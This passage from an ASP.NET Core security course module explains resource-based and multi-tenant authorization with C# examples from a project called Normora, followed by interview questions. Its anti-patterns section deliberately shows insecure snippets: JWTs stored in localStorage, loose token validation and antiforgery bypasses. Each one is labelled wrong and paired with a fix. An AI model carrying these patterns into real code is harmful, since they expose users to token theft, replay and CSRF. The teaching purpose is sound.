// Example: Normora Documents Module CQRS Handler (Primary Constructor + No Magic Strings)
public sealed class DeleteDocumentCommandHandler(
    DocumentsDbContext dbContext,
    ICurrentUser currentUser,
    ITenantContext tenantContext) : IRequestHandler<DeleteDocumentCommand>
{
    public async Task Handle(DeleteDocumentCommand request, CancellationToken ct)
    {
        // 1. DocumentsDbContext applies TenantId global filter; still check departmental clearance!
        var document = await dbContext.Documents
            .FirstOrDefaultAsync(d => d.Id == request.DocumentId, ct);

        if (document is null || !tenantContext.CanAccessDepartment(document.DepartmentId))
        {
            // BOLA protection: never reveal whether the document exists in another tenant or restricted dept
            throw new BolaException();
        }

        // 2. Resource + Function check: only workspace Admins or the uploader can delete
        var isUploader = document.UploadedByExternalUserId == currentUser.ExternalUserId;
        if (!isUploader && tenantContext.TenantRole != TenantRoles.Admin)
        {
            throw new BflaException();
        }

        dbContext.Documents.Remove(document);
        await dbContext.SaveChangesAsync(ct);
    }
}
```

And if you want reusable ASP.NET Core `IAuthorizationService` handlers for an endpoint layer, pair a requirement with `AuthorizationHandler<TRequirement, TResource>` using primary constructors:

```csharp
public sealed record DocumentAccessRequirement : IAuthorizationRequirement;

public sealed class DocumentAccessAuthorizationHandler(
    ITenantContext tenantContext)
    : AuthorizationHandler<DocumentAccessRequirement, Document>
{
    protected override Task HandleRequirementAsync(
        AuthorizationHandlerContext context,
        DocumentAccessRequirement requirement,
        Document resource)
    {
        if (resource.TenantId == tenantContext.TenantId
            && tenantContext.CanAccessDepartment(resource.DepartmentId))
        {
            context.Succeed(requirement);
        }

        return Task.CompletedTask;
    }
}
```

### When NOT to Use Imperative Per-Item `IAuthorizationService` Loops
*   **List, Pagination, and RAG Vector Search Endpoints:** Never fetch 10,000 rows from PostgreSQL into C# memory and loop `await authorizationService.AuthorizeAsync(User, item, req)` on each row! That destroys performance, breaks SQL `OFFSET`/`LIMIT` pagination counts, and risks loading unauthorized vector chunks into memory. Instead, **push authorization predicates directly into the SQL/EF Core query** (as Normora does with `TenantId` query filters and `DepartmentId` SQL `WHERE` clauses inside `PerformHybridRetrievalQuery`).

### 5 Real-World Normora Resource-Based Authorization Examples
1. **Departmental & User-Group Document Isolation (`Documents`):** Even within the same tenant, an Engineering member querying `GET /api/documents/{hrPolicyId}` triggers `BolaException` (`404` `ApiMessages.NotFound`) if their `ITenantContext.EffectiveDepartments` does not include the `HR` department.
2. **Hybrid RAG Vector Retrieval (`PerformHybridRetrievalQueryHandler`):** Both pgvector HNSW cosine similarity and full-text RRF queries enforce `TenantId` and permitted `DepartmentId` filters directly inside PostgreSQL before ranking candidates—preventing unauthorized chunks from ever entering Gemini's prompt context!
3. **Private Conversation Ownership (`Conversations`):** `GetConversationMessagesQueryHandler` checks both `TenantId` and `conversation.OwnerExternalUserId == currentUser.ExternalUserId`; attempting to read a teammate's private thread throws `BolaException` (`404`).
4. **Server-Enforced HITL Approval (`ApprovalsController`):** When the AI agent proposes `documents_delete`, Normora creates a `PendingApproval` record bound to `{TenantId, ExternalUserId}` with a 15-minute TTL. When `ApprovalsController` processes confirmation, it verifies the caller owns that exact `PendingApproval` in the active tenant—blocking cross-user or expired approval replay with `BolaException` / `BflaException`.
5. **Saved Answers & Workspace Invitations (`Conversations` / `Tenants`):** Revoking a pending `Invitation` or deleting a personal `SavedAnswer` verifies workspace scoping and creator/admin ownership in the handler before mutating state, never trusting client-supplied `tenantId` fields inside request bodies over `ITenantContext.TenantId`.

---

## 7. Multi-Tenant Authorization (Normora)

Multi-tenant SaaS platforms introduce a critical architectural constraint: **identity is global, but permissions are workspace-scoped.**  
In Normora, Alice logs in once via Keycloak (`ExternalUserId = usr_9812`). She may be an **Admin** in *Acme Corp* (Tenant A) with access to HR and Finance documents, yet merely a **Viewer** in *Globex Corp* (Tenant B) restricted to Engineering. Storing `"role": "Admin"` inside her static Keycloak JWT breaks completely.

### How Normora Solves Multi-Tenant Authorization
Normora separates **global identity verification** (`UseAuthentication` + `UseBff`) from **per-request workspace authorization** (`TenantResolutionMiddleware` + `[RequireTenant]` + Defense-in-Depth DB filters):



1. **AuthN Middleware (`Duende BFF`):** Validates `__Host-normora-bff` and `X-CSRF: 1`, populating `ICurrentUser.ExternalUserId`.
2. **`TenantResolutionMiddleware` (`Normora.Api`):** Reads the `X-Tenant-Id` header and calls `ITenantResolutionService` (cached in Redis with a short **30s–5m sliding expiration** plus explicit invalidation on role/department mutations so revocations propagate rapidly without hammering PostgreSQL on every request).
3. **Scoped `ITenantContext`:** Stores the resolved `TenantId`, `TenantRole`, `PlanTier`, and `EffectiveDepartments` (combined direct department + user-group clearances) for the current HTTP scope.
4. **`[RequireTenant]` Action Filter:** Validates `ITenantContext.IsResolved` and required workspace roles, returning structured `403 Forbidden` (`ApiResponse.Failure(ApiMessages.Forbidden)`)—never empty `Forbid()`.
5. **Defense-in-Depth Persistence & Cross-Module Contracts:**
   *   `DocumentsDbContext` and `ConversationsDbContext` automatically apply EF Core global query filters bound to `ITenantContext.TenantId`.
   *   `TenantsDbContext` is the **unscoped multi-tenancy root** (it has no global filter so it can resolve cross-workspace memberships at login), meaning every workspace-scoped query against `TenantsDbContext` **must explicitly filter** `.Where(m => m.TenantId == request.TenantId)`.
   *   Cross-module MediatR contracts in `Normora.Shared.Contracts.*` (such as `PerformHybridRetrievalQuery` and `GetMcpToolsQuery`) explicitly carry `Guid TenantId` so tenant isolation works identically inside HTTP requests and non-HTTP `Normora.Worker` jobs.

```csharp
// From Normora's Modules/Tenants/API/DepartmentsController.cs
[ApiController]
[Route("api/departments")]
[RequireTenant(TenantRoles.Admin)] // Checks ITenantContext.IsResolved & TenantRole
public sealed class DepartmentsController(ISender mediator) : ControllerBase
{
    [HttpPost]
    public async Task<IActionResult> CreateDepartment(
        CreateDepartmentRequest request,
        CancellationToken ct)
    {
        var result = await mediator.Send(new CreateDepartmentCommand(request.Name), ct);
        return Ok(ApiResponse<DepartmentDto>.Success(result));
    }
}
```

### When NOT to Apply `[RequireTenant]`
*   **Workspace Discovery & Invitation Acceptance:** Endpoints like `GET /api/tenants` (listing all workspaces the logged-in user belongs to) or `POST /api/invitations/accept` run *before* a user has selected an active `X-Tenant-Id`. They require an authenticated `ICurrentUser`, not an active `ITenantContext`.
*   **Server-to-Server Payment Callbacks:** PayU callbacks carry `TenantId` inside signed gateway metadata (`udf3`) rather than an `X-Tenant-Id` browser header.

### 5 Real-World Normora Multi-Tenant Authorization Examples
1. **Instant Workspace Switching in Angular:** Switching from *Acme Corp* to *Globex Corp* only updates the `X-Tenant-Id` header on subsequent API calls—no Keycloak re-login or JWT re-issuance required.
2. **Immediate Role & User-Group Revocation:** When an Admin removes an employee from a `UserGroup` or downgrades their `TenantRole`, `Tenants` evicts the Redis cache key (backed by a 30s–5m TTL ceiling), ensuring the next HTTP request reflects the revoked clearance.
3. **Cross-Module RAG Retrieval (`Conversations` -> `Documents`):** `ConversationTurnPreparer` calls `PerformHybridRetrievalQuery(tenantId, query, effectiveDepartments, ...)` via MediatR—never injecting `IRetrievalService` or `DocumentsDbContext` directly—guaranteeing explicit `TenantId` isolation.
4. **CopilotKit AI Session Partitioning (`NormoraAgentIsolationKeyProvider`):** Partitions agent threads strictly by `{TenantId}:{ExternalUserId}`, preventing Alice's *Acme Corp* chat memory from leaking when she switches to *Globex Corp*.
5. **Cross-Process SignalR Broadcasting (`Normora.Worker` -> Redis -> `Normora.Api`):** When `DocumentProcessingJob` finishes indexing a PDF, it publishes progress scoped to the tenant's SignalR group (`tenant:{TenantId}`) via the Redis backplane, and `DocumentHub` authorizes group joins strictly against `ITenantContext.TenantId`.

---

## 8. Abstractions: `ICurrentUser`, `ITenantContext` & Non-HTTP Contexts

**Never access `HttpContext.User` directly inside Application, Domain, or Module layers.** Coupling MediatR handlers to `HttpContext` breaks unit testing, prevents reuse from SignalR or background workers, and leaks HTTP-specific claim schemas into business logic. Instead, place clean interfaces in `Normora.Shared/Interfaces/` and implement them in `Normora.Api/Services/`.

### NextEvent Implementation:
```csharp
// From NextEvent's CurrentUserService.cs (Primary Constructor)
public class CurrentUserService(IHttpContextAccessor httpContextAccessor) : ICurrentUserService
{
    public string? GetCurrentUserId()
    {
        var user = httpContextAccessor.HttpContext?.User;
        if (user?.Identity?.IsAuthenticated != true) return null;

        return user.FindFirst(ClaimTypes.NameIdentifier)?.Value;
    }
    
    public bool HasRole(string role)
    {
        return httpContextAccessor.HttpContext?.User?.IsInRole(role) == true;
    }
}
```

### Normora Implementation: Provider-Neutral `ICurrentUser` & `ITenantContext`
```csharp
// From Normora.Shared/Interfaces/ICurrentUser.cs
public interface ICurrentUser
{
    string? ExternalUserId { get; }
    string? Email { get; }
    bool IsAuthenticated { get; }
}

// From Normora.Api/Services/CurrentUser.cs (Primary Constructor)
public sealed class CurrentUser(IHttpContextAccessor httpContextAccessor) : ICurrentUser
{
    private ClaimsPrincipal? Principal => httpContextAccessor.HttpContext?.User;

    public bool IsAuthenticated => Principal?.Identity?.IsAuthenticated == true;

    public string? ExternalUserId =>
        Principal?.FindFirst("sub")?.Value
        ?? Principal?.FindFirst(ClaimTypes.NameIdentifier)?.Value;

    public string? Email =>
        Principal?.FindFirst("email")?.Value
        ?? Principal?.FindFirst(ClaimTypes.Email)?.Value;
}
```

### When NOT to Rely on `IHttpContextAccessor`
*   **Inside `Normora.Worker` (Hangfire Jobs):** `DocumentProcessingJob` and `HangfireDocumentProcessingOutboxDispatcher` run in a separate host process with **no HTTP request**—`httpContextAccessor.HttpContext` is always `null`! Never expect `ICurrentUser` or HTTP-populated `ITenantContext` to exist in Hangfire jobs; persist `TenantId` and `ExternalUserId` explicitly in `DocumentProcessingOutboxMessage` and pass `Guid TenantId` in `Normora.Shared.Contracts.*`.
*   **Inside `Singleton` Services or Fire-and-Forget `Task.Run`:** `HttpContext` is scoped to the active HTTP request and disposed when the response completes. Reading `IHttpContextAccessor` from a background `Task.Run` after the controller returns causes `ObjectDisposedException` or race conditions.

### 5 Real-World Normora Abstraction Examples
1. **CQRS Handler Identity (`UploadDocumentCommandHandler`):** Injects `ICurrentUser` and `ITenantContext` via primary constructor to stamp `UploadedByExternalUserId` and `TenantId` without referencing ASP.NET Core HTTP types.
2. **Audit Pipeline (`AuditBehavior`):** Reads `currentUser.ExternalUserId` and `tenantContext.TenantId` so every mutation across `Tenants`, `Documents`, and `Conversations` writes consistent audit trails.
3. **Cross-Module Defense-in-Depth (`PerformHybridRetrievalQuery`):** Accepts `Guid TenantId` and permitted `IReadOnlyCollection<Guid> DepartmentIds` explicitly in the contract record rather than assuming `IHttpContextAccessor` is populated.
4. **Unit Testing Without Web Host Mocks:** Tests for `CreateDepartmentCommandHandler` or `DeleteDocumentCommandHandler` simply pass a fake `ICurrentUser` and `ITenantContext`—zero `DefaultHttpContext` boilerplate.
5. **Dual-Host Registration (`Normora.Api` vs `Normora.Worker`):** `Normora.Api` registers HTTP-backed `CurrentUser` and `TenantContext`, while `Normora.Worker` registers a non-HTTP `ITenantContext` / explicit job context so shared module DbContexts (`DocumentsDbContext`) never crash when instantiated in background jobs.

---

## 9. Common Mistakes & Anti-Patterns

> [!CAUTION]
> **Anti-Pattern 1: Storing JWTs in `localStorage` for a Browser SPA**
>
> **Wrong:**
> ```typescript
> // Angular login callback saving raw OIDC token in browser storage
> localStorage.setItem('access_token', response.accessToken);
> ```
> **Why it's wrong:** Any XSS bug or compromised npm dependency can execute `localStorage.getItem('access_token')` and exfiltrate the user's token to an attacker's server.
>
> **Fix:** Use **Duende BFF** (`AddBff().AddEntityFrameworkServerSideSessions<SessionDbContext>()`) so Keycloak tokens stay encrypted on the server and the browser only holds an `__Host-normora-bff` `HttpOnly`, `Secure`, `SameSite=Strict` cookie plus `X-CSRF: 1`.

> [!CAUTION]
> **Anti-Pattern 2: Returning `403 Forbidden` or Empty `Forbid()` on Object Access Failures (BOLA)**
>
> **Wrong:**
> ```csharp
> var doc = await dbContext.Documents.IgnoreQueryFilters()
>     .FirstOrDefaultAsync(d => d.Id == request.DocumentId, ct);
> if (doc is null) return NotFound("Document missing");
> if (doc.TenantId != tenantContext.TenantId) return Forbid(); // Leaks existence + empty body!
> ```
> **Why it's wrong:** Returning `403` for a cross-tenant or restricted-department document lets attackers enumerate valid `DocumentId` UUIDs across tenants, and ASP.NET Core's empty `Forbid()` breaks structured JSON error interceptors. Hardcoded strings also violate `ApiMessages`.
>
> **Fix:** Filter by `TenantId` and departmental clearance in the handler/query and throw `BolaException()` (mapped to `404` `ApiMessages.NotFound`). Reserve `BflaException()` (mapped to `403` `ApiMessages.Forbidden`) strictly for unauthorized actions within an allowed resource/workspace.

> [!CAUTION]
> **Anti-Pattern 3: Leaving Default 5-Minute `ClockSkew` & Skipping Token Type Validation**
>
> **Wrong:**
> ```csharp
> opt.TokenValidationParameters = new TokenValidationParameters
> {
>     ValidateIssuerSigningKey = true,
>     IssuerSigningKey = signingKey,
>     ValidateLifetime = true
>     // ClockSkew defaults to 5 minutes! ValidateIssuer / ValidateAudience omitted!
> };
> ```
> **Why it's wrong:** Expired short-lived JWTs remain accepted for an extra 5 minutes, and omitting `ValidateIssuer` / `ValidateAudience` / `ValidTypes` allows tokens issued for a different client app or an OIDC ID token to be replayed against your API.
>
> **Fix:** Explicitly set `ClockSkew = TimeSpan.Zero`, `ValidateIssuer = true`, `ValidateAudience = true`, and `ValidTypes = ["JWT", "at+jwt"]` (for asymmetric OIDC tokens).

> [!CAUTION]
> **Anti-Pattern 4: Storing Multi-Tenant Roles Inside Keycloak JWT Claims**
>
> **Wrong:**
> ```csharp
> // Controller trusting a static claim baked into the login token
> [Authorize(Roles = "TenantAdmin")]
> public async Task<IActionResult> DeleteDepartment(Guid departmentId) => ...
> ```
> **Why it's wrong:** Users can belong to multiple Normora workspaces with different roles (`Admin` in Tenant A, `Member` in Tenant B). Static JWT claims cannot adapt when switching `X-Tenant-Id` and stay dangerously stale until the token expires even after an admin revokes someone's access.
>
> **Fix:** Keep Keycloak focused on global identity (`ExternalUserId`), resolve per-workspace `TenantRole` and `EffectiveDepartments` dynamically in `TenantResolutionMiddleware` via Redis-cached lookups (30s–5m TTL + cache eviction on mutation), and guard endpoints with `[RequireTenant(...)]`.

> [!CAUTION]
> **Anti-Pattern 5: Broadly Bypassing Antiforgery on `[AllowAnonymous]` or Matching `Endpoint.DisplayName`**
>
> **Wrong:**
> ```csharp
> // Dangerous middleware guessing antiforgery exemptions from display names or AllowAnonymous
> if (endpoint.DisplayName?.Contains("Callback") == true || endpoint.Metadata.GetMetadata<IAllowAnonymous>() is not null)
>     antiforgeryFeature.IsValid = true;
> ```
> **Why it's wrong:** `DisplayName` strings are fragile refactoring hazards, and `[AllowAnonymous]` endpoints that read cookies or alter state can still be CSRF targets if antiforgery is blindly disabled.
>
> **Fix:** Map BFF MVC controllers with `.AsBffApiEndpoint()`, use ASP.NET Core's supported skip-antiforgery attribute **only** on explicitly verified server-to-server webhooks (like PayU's HMAC-signed callback), and verify cryptographic signatures before processing.

> [!CAUTION]
> **Anti-Pattern 6: Reading `IHttpContextAccessor` or `ICurrentUser` in Background Workers (`Normora.Worker`)**
>
> **Wrong:**
> ```csharp
> // Inside Hangfire job in Normora.Worker
> public async Task ExecuteAsync(Guid documentId, CancellationToken ct)
> {
>     var userId = currentUser.ExternalUserId ?? throw new InvalidOperationException("Missing user");
> }
> ```
> **Why it's wrong:** Hangfire background jobs execute outside ASP.NET Core HTTP requests, so `HttpContext` is always `null`—causing immediate job failures and retry storms.
>
> **Fix:** Persist `TenantId` and `ExternalUserId` inside `DocumentProcessingOutboxMessage` during the originating HTTP transaction, and pass explicit `Guid TenantId` parameters across `Normora.Shared.Contracts.*` MediatR queries/commands.

---

## 10. Best Practices Summary

| Practice | Why |
|---|---|
| **Use Cookies + Duende BFF for Browser SPAs** | Eliminates XSS token theft (`__Host-` + `HttpOnly` + `SameSite=Strict`) |
| **Use JWTs for Mobile / Machine-to-Machine** | Stateless, scalable, and works where browser cookies don't apply |
| **Set `ClockSkew = TimeSpan.Zero` & `MapInboundClaims = false`** | Prevents 5-minute expired-token grace periods and legacy claim renaming |
| **Set a Global `FallbackPolicy`** | Secures every endpoint by default; `[AllowAnonymous]` becomes explicit opt-in |
| **Prefer Policies & `IAuthorizationRequirement` over Flat Roles** | Centralizes complex rules cleanly outside controllers |
| **Enforce BOLA (`404`) vs. BFLA (`403`) Consistently** | Prevents cross-tenant/cross-department ID enumeration (`ApiMessages`) |
| **Resolve Multi-Tenant Roles via `TenantResolutionMiddleware` + Redis** | Enables instant workspace switching and fast revocation propagation |
| **Abstract `HttpContext.User` Behind `ICurrentUser` & `ITenantContext`** | Keeps CQRS handlers testable and worker-safe |

---

## 11. Interview Questions

1. ***(Junior)*** **What is the difference between Authentication (`AuthN`) and Authorization (`AuthZ`), and which HTTP status codes map to each?**
   * **Answer:** `AuthN` verifies *who* the caller is (returning `401 Unauthorized` when credentials are missing, invalid, or expired). `AuthZ` verifies *whether* an authenticated caller is permitted to perform an action or access a resource (returning `403 Forbidden` for function-level denial, or `404 Not Found` in BOLA-hardened APIs like Normora to prevent ID enumeration).

2. ***(Junior)*** **Why should you never store sensitive secrets in a JWT payload, and why set `ClockSkew = TimeSpan.Zero`?**
   * **Answer:** A standard signed JWT (`JWS`) is Base64Url-*encoded*, not encrypted—anyone who reads the token string can decode the header and payload. `ClockSkew` defaults to 5 minutes in ASP.NET Core, meaning expired tokens stay valid 5 minutes past `exp` unless you override it to `TimeSpan.Zero`.

3. ***(Junior)*** **Why does setting `options.MapInboundClaims = false` matter when integrating Keycloak or OIDC in .NET 10?**
   * **Answer:** By default, Microsoft's legacy WS-Federation claim mapping renames standard OIDC claims like `"sub"` into long XML schema URIs (`http://schemas.xmlsoap.org/.../nameidentifier`). Setting `MapInboundClaims = false` preserves clean, predictable OIDC claim names (`sub`, `email`) across `ClaimsPrincipal` lookups.

4. ***(Senior)*** **Why is storing a JWT in browser `localStorage` dangerous for an Angular SPA, and how does Duende BFF + `X-CSRF: 1` fix both XSS token theft and CSRF?**
   * **Answer:** Any XSS vulnerability or compromised frontend script can read `localStorage` and steal the JWT. Duende BFF moves OIDC token exchange and refresh tokens entirely onto the server (`SessionDbContext`) and issues an `HttpOnly`, `Secure`, `SameSite=Strict` `__Host-` cookie that JavaScript cannot read. Because browsers attach cookies automatically, Duende BFF also enforces `SameSite=Strict` and requires a custom `X-CSRF: 1` header on API calls—neutralizing CSRF since cross-origin sites cannot set custom headers without CORS approval.

5. ***(Senior)*** **When should you use a declarative policy (`[Authorize(Policy = "...")]`) versus Resource-Based Authorization (`IAuthorizationService` or CQRS handler checks)?**
   * **Answer:** Use declarative policies (`IAuthorizationRequirement` + `AuthorizationHandler<T>`) when rules depend only on the caller's identity, claims, or resolved request scope (`ITenantContext`). Use Resource-Based Authorization when permission depends on the *specific database entity* (ownership, departmental ACLs, HITL `PendingApproval` ownership). For list/search endpoints (like pgvector RAG retrieval), push the authorization filter directly into SQL/EF Core queries rather than looping `AuthorizeAsync` in memory.

6. ***(Senior)*** **Explain BOLA vs. BFLA in Normora. Why does Normora return `404` for BOLA instead of `403`?**
   * **Answer:** **BOLA** (Broken Object Level Authorization) happens when a caller requests a specific object they do not own or lack clearance for (e.g., another tenant's document or an HR-restricted file). Returning `403` confirms the resource ID exists, enabling enumeration attacks—so Normora throws `BolaException` mapped to `404 Not Found` (`ApiMessages.NotFound`). **BFLA** (Broken Function Level Authorization) happens when a caller invokes an endpoint/operation above their role (e.g., a Member cancelling a subscription), which throws `BflaException` mapped to `403 Forbidden` (`ApiMessages.Forbidden`).

7. ***(Architect)*** **Why do static JWT role claims fail in a multi-tenant SaaS like Normora, and how do you architect multi-tenant authorization with fast revocation?**
   * **Answer:** In multi-tenant systems, a single user (`ExternalUserId`) can hold different roles and departmental clearances across workspaces (`Admin` in Tenant A, `Viewer` in Tenant B). Baking roles into a Keycloak JWT forces re-login on workspace switch and leaves revoked permissions active until token expiry. Normora keeps Keycloak tokens strictly for global identity, resolves `X-Tenant-Id` per request in `TenantResolutionMiddleware` backed by Redis with a short sliding TTL (30s–5m) plus explicit eviction on role/group mutations, binds `ITenantContext` to EF Core global query filters (`DocumentsDbContext`, `ConversationsDbContext`), and enforces `[RequireTenant]` filters.

8. ***(Architect)*** **How do you prevent authorization and tenant isolation leaks across non-HTTP boundaries like Hangfire background workers and AI agent sessions?**
   * **Answer:** Because `IHttpContextAccessor` / `HttpContext` is `null` in `Normora.Worker`, background operations cannot rely on HTTP middleware. Normora writes `TenantId` and `ExternalUserId` atomically into `DocumentProcessingOutboxMessage` in the originating transaction and passes explicit `Guid TenantId` parameters in all cross-module MediatR contracts (`PerformHybridRetrievalQuery`). For conversational AI (`NormoraWorkplaceAgent`), `NormoraAgentIsolationKeyProvider` partitions agent state strictly by `{TenantId}:{ExternalUserId}`, and vector/full-text SQL queries filter by `TenantId` and `EffectiveDepartments` before ranking chunks.

---
**Key Takeaways:**
1. Authentication verifies identity (OIDC/JWT/Cookies); Authorization verifies permissions (Policies, Requirements, Resource & Tenant checks).
2. The Claims-Based Identity model uses `Claim` -> `ClaimsIdentity` -> `ClaimsPrincipal`; set `MapInboundClaims = false` and never put secrets or mutable tenant roles in JWTs.
3. Stateless JWTs suit mobile/M2M clients (`ClockSkew = TimeSpan.Zero`), whereas Duende BFF with `__Host-` `HttpOnly` cookies + `X-CSRF: 1` protects browser SPAs from XSS token theft and CSRF.
4. Combine global `FallbackPolicy`, custom `IAuthorizationRequirement` handlers, and CQRS Resource-Based checks (`BolaException` -> `404`, `BflaException` -> `403`) using primary constructors and `ApiMessages`.
5. Multi-tenant authorization requires per-request `TenantResolutionMiddleware` (Redis-cached for fast revocation), `ITenantContext` defense-in-depth DB filters, and explicit `Guid TenantId` propagation into background workers and AI agent isolation keys.

**Next up:** In [Module 10](10_Module_10_Architecture_Tests_and_Resilience.md), we explore **Architectural Fitness Functions, Resiliency & Production Engineering** — how to write automated architecture tests, configure health checks, and run zero-downtime database migrations.
